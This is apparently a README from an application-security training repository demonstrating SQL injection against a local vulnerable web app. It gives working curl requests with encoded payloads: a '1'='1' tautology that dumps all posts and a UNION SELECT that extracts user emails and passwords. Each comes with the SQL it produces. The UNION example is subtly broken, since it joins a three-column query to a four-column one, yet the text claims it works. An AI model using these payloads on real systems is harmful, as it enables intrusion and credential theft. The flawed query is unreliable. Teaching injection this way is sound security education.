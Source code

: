 # appsec-validation-injection-sql

http://localhost:8080/h2-console/login.jsp?jsessionid=6350ae370854407184e14377bbff4db7

## Retrieve post by user

The following request would retrieve the posts written by 'user1' (id = 2) which have the value 'post-a' as slug:

```bash
curl --request GET \
  --url http://localhost:8080/posts/post-a \
  --header 'referer: https://wikipedia.org'
```

The application would translate this request into the SQL query that is shown next:

```sql
SELECT id, slug, title
FROM posts, user_posts
WHERE posts.id = user_posts.post_id
  AND user_posts.user_id = 2
  AND slug = 'post-a'
```

As it can be seen, the result is a simple list with the information of post 'post-a':

![appsec-validation-injection-sql-retrieve-post-by-user.png](README/appsec-validation-injection-sql-retrieve-post-by-user.png)

## Retrieve all posts

Since the application was vulnerable to SQL injection, the original query could be altered to retrieve all posts written by any user:

```bash
curl --request GET \
  --url http://localhost:8080/posts/post-a%27%20OR%20%271%27%20=%20%271 \
  --header 'referer: https://wikipedia.org'
```

This request would be translated into the following SQL query:

```sql
SELECT id, slug, title
FROM posts, user_posts
WHERE posts.id = user_posts.post_id
  AND user_posts.user_id = 2
  AND slug = 'post-a'
  OR '1' = '1'
```

As a result, all posts stored in the database would be returned to the user:

![appsec-validation-injection-sql-retrieve-all-posts.png](README/appsec-validation-injection-sql-retrieve-all-posts.png)

## Retrieve all users

This type of attack could be used to even retrieve sensitive information about the users registered into the application, emails and passwords included:

```bash
curl --request GET \
  --url 'http://localhost:8080/posts/post-a%27%20UNION%20SELECT%20id,%20username,%20email,%20password%20FROM%20users%20WHERE%20%271%27=%20%271' \
  --header 'referer: https://wikipedia.org'
```

This request would generate a SQL query that would join the `posts` and `users` tables:

```sql
SELECT id, slug, title
FROM posts, user_posts
WHERE posts.id = user_posts.post_id
  AND user_posts.user_id = 2
  AND slug = 'post-a'
UNION
SELECT id, username, email, password
FROM users
WHERE '1'= '1'
```

As it is shown in the following picture, the attacker would have access to all the credentials stored in the database:

![appsec-validation-injection-sql-retrieve-all-users.png](README/appsec-validation-injection-sql-retrieve-all-users.png)
